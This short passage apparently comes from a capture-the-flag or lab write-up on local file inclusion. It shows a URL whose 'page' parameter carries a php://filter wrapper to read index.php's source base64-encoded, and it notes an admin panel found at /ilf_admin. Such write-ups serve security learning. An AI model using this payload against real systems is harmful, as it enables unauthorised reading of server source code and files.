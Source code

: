 ```url
http://94.237.48.12:46011/index.php?page=php://filter/read=convert.base64-encode/resource=index
```
- Found the admin panel at /ilf_admin

```

```
